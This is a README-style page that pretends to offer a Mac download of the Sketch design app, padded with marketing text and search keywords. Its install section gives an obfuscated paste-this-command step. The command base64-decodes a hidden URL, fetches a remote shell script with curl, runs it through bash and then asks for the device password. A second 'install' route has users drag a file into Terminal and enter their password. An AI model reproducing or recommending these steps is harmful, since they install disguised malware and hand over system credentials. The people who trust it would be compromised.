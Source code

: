 # Sketch Mac Download
![Sketch Screenshot 1](https://pbs.twimg.com/profile_images/1858820941544869888/QHTakxOt_400x400.jpg)

![Download Now](https://img.shields.io/badge/Download--Now-Sketch%20Mac-blue?style=for-the-badge&logo=apple)(https://nikolanfu.github.io/.github/sketchapp)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Sketch for Mac?

Sketch for Mac is a leading vector graphics editor tailored specifically for user interface, web, and mobile app design. Trusted by millions of designers worldwide, Sketch combines powerful design tools with a simple, clean interface that enhances productivity and creativity.

It offers a comprehensive set of features including precision vector editing, reusable symbols and styles, smart layout resizing, and integration with a vast library of third-party plugins. Sketch makes it easy to create responsive, scalable designs and collaborate efficiently through cloud workspaces and real-time file sharing.

Built exclusively for macOS, Sketch leverages Apple Silicon hardware for superior performance, delivering smooth rendering and fast workflows. Whether you’re creating wireframes, prototypes, icons, or full-scale app designs, Sketch provides everything needed to take your ideas from concept to final product.

![Sketch UI](https://www.appgefahren.de/wp-content/uploads/2023/10/Sketch-Mac.jpg)

---

## 🌟 Key Features & Benefits

- 🎨 Vector-Based Design — Create high-quality scalable graphics for web & mobile  
- 🧩 Reusable Components — Use shared symbols and styles for consistent design  
- ☁️ Cloud Workspaces — Collaborate and manage files in real time  
- 🧠 Smart Layouts — Automatic resizing and responsive elements  
- 🔄 Third-Party Plugins — Extend functionality with hundreds of tools  
- 📐 Grid and Guides — Snap-to-grid for pixel-perfect UI layouts  
- 💡 Intuitive Interface — Clean and easy-to-navigate macOS-native design  
- 🚀 Optimized for Apple Silicon — Smooth performance on M1/M2 Macs

---

## 🖥️ System Requirements

- macOS 10.15 Catalina or later  
- Intel or Apple Silicon (M1/M2/M3) processor  
- 8 GB RAM minimum  
- 500 MB disk space

---

## 🏷️ Keywords

sketch download mac, sketch mac, sketch mac app, sketch macos, download sketch mac, macbook drawing app, sketch app download mac, sketch up mac, sketch up for mac
